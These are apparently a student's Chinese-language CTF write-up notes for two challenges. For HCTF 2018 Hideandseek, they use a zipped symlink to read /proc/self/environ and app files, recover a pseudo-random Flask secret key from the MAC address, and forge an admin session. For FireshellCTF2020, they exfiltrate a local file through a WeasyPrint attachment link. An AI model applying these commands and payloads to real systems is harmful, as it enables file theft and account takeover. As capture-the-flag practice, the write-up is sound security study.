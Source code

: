 ## [HCTF 2018]Hideandseek
关键词：软链接文件读取 session伪造 伪随机数
ln -s /proc/self/environ troye
zip -y troye.zip troye
读取的内容：

HOSTNAME=4ae8a62e14bc
SHLVL=1
PYTHON_PIP_VERSION=19.1.1
HOME=/root
GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
UWSGI_INI=/app/uwsgi.ini
WERKZEUG_SERVER_FD=3
NGINX_MAX_UPLOAD=0
UWSGI_PROCESSES=16STATIC_URL=/static_=/usr/local/bin/pythonUWSGI_CHEAPER=2
WERKZEUG_RUN_MAIN=true
NGINX_VERSION=1.15.8-1~
stretchPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NJS_VERSION=1.15.8.0.2.7-1~
stretchLANG=C.UTF-8
PYTHON_VERSION=3.6.8
NGINX_WORKER_PROCESSES=1LISTEN_PORT=80
STATIC_INDEX=0PWD=/app
PYTHONPATH=/app
STATIC_PATH=/app/static
FLAG=not_flag

无key，继续读取/app/uwsgi.ini
[uwsgi]
module = main
callable=app
logto = /tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log

继续读取源码/app/main读不出来，看了wp可能是buu环境问题，这里应该显示/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py

所以读取/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py
部分代码：
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
显然是个伪随机数，百度uuid.getnode()得：on a machine with multiple network interfaces the MAC address of any one of them may be returned.（这个函数可以获取网卡mac地址并转换成十进制数返回）
/proc/net/arp查看连接到本机的远端ip的mac地址
/sys/class/net/eth0/address 查看eth0的mac地址（用这个）
得到02:42:ac:10:b7:0e
python3 flask_session_manager.py encode -s '61.372777952686' -t "{'username':'admin'}"

## [FireshellCTF2020]URL TO PDF
关键词：WeasyPrint
看上去是ssrf，但是输啥都是invalid url。
连一下自己服务器试试：User-Agent: WeasyPrint 51 (http://weasyprint.org/)
google 可以解析<link rel='attachment' href='file:///flag'>或<a rel='attachment' href='file:///flag'>
在自己vps上布置一个html即可。
